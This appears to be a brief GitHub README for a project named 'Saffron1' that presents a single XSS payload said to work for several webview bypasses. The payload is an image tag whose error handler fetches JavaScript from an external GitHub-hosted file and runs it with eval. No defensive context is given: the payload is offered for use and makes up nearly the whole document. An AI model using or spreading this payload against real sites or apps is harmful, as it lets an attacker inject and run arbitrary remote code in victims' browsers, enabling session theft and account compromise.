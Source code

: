 # Saffron1
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/CyanHood/saffron1/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
